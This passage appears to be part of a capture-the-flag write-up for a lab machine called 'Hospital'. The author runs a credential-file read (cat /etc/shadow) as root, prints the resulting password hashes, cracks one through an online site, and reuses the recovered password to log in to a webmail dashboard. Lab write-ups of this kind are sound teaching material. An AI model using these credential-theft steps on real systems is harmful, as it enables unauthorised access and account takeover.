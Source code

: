 Now lets see the users and there password from the shadow file ⏬
```bash
root@webserver:/dev/shm# cat /ecat /etc/shadow
cat /etc/shadow
root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
daemon:*:19462:0:99999:7:::
bin:*:19462:0:99999:7:::
sys:*:19462:0:99999:7:::
sync:*:19462:0:99999:7:::
games:*:19462:0:99999:7:::
man:*:19462:0:99999:7:::
lp:*:19462:0:99999:7:::
mail:*:19462:0:99999:7:::
news:*:19462:0:99999:7:::
uucp:*:19462:0:99999:7:::
proxy:*:19462:0:99999:7:::
www-data:*:19462:0:99999:7:::
backup:*:19462:0:99999:7:::
list:*:19462:0:99999:7:::
irc:*:19462:0:99999:7:::
_apt:*:19462:0:99999:7:::
nobody:*:19462:0:99999:7:::
systemd-network:!*:19462::::::
systemd-timesync:!*:19462::::::
messagebus:!:19462::::::
systemd-resolve:!*:19462::::::
pollinate:!:19462::::::
sshd:!:19462::::::
syslog:!:19462::::::
uuidd:!:19462::::::
tcpdump:!:19462::::::
tss:!:19462::::::
landscape:!:19462::::::
fwupd-refresh:!:19462::::::
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
lxd:!:19612::::::
mysql:!:19620::::::
root@webserver:/dev/shm# 
```
{: .nolineno}
I got the password hash for user `drwilliams` and I decoded it through [hashes.com](https://hashes.com/en/decrypt/hash) site and I got the password ⏬
![Image](Pasted%20image%2020240219172719.png)
```text
drwilliams : qwe123!@#
```
{: .nolineno}
Now I also tried to login into the port 443 Hospital site with this credentials and I got in ⏬
![Image](Pasted%20image%2020240219172901.png)
_Dashboard works as mail system_
A mail stated this information : 
![Image](Pasted%20image%2020240219173121.png)
_Mail from drbrown to Lucy stated about the ghostscript !_
